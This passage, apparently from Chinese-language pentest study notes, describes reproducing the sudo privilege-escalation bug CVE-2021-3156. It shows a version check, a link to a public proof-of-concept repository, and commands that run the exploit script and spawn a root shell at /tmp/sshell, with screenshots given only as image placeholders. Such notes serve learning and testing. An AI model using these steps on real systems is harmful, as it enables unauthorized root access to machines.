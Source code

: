 命令：sudo --version

[<img src=".\图片\1964477-20220523122644107-3127301.png" alt="img"  />

**POC**

https://github.com/worawit/CVE-2021-3156

**复现**

```css
sudo --version
```

[<img src=".\图片\1964477-20220523122644107-31207301.png" alt="img"  />

```bash
python exploit_defaults_mailer.py
/tmp/sshell
```

[<img src=".\图片\1964477-20220523122643714-1146834529.png" alt="img" style="zoom:80%;" />

[<img src=".\图片\1964477-20220523122643471-498324307.png" alt="img" style="zoom:80%;" />

##  文件权限配置不当
